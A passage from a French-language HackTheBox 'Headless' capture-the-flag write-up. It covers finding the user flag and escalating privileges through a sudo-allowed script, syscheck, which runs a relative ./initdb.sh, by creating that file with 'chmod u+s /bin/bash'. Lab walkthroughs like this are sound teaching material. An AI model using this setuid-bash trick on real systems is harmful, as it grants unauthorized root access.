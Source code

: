 Dans le dossier personnel, nous trouvons le fichier `user.txt`.

![User flag](/images/HTB-Headless/user-flag.png)

## Elévation de Privilèges

Avec `sudo -l`, nous découvrons que cet utilisateur peut exécuter `/usr/bin/syscheck`.

![sudo -l command](/images/HTB-Headless/sudo-l.png)


```shell
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

Le script effectue plusieurs tâches telles que la vérification des privilèges root, la vérification de l'espace disque disponible, etc. Mais notre chemin vers les privilèges root passe par le fichier `initdb.sh`.

Nous recherchons le fichier avec `find / -type f -name 'initdb.sh' 2>/dev/null` afin de le modifier, mais il n'est pas sur le système et nous devons donc le créer.

```
echo "chmod u+s /bin/bash" > initdb.sh
```
La commande ci-dessus crée le fichier `initdb.sh` contenant la commande `chmod u+s /bin/bash` qui met le bit setuid (`u+s`) sur l'exécutable `/bin/bash`.

L'utilisateur `dvir` est autorisé à exécuter la commande `/usr/bin/syscheck` avec les privilèges sudo sans fournir de mot de passe.

---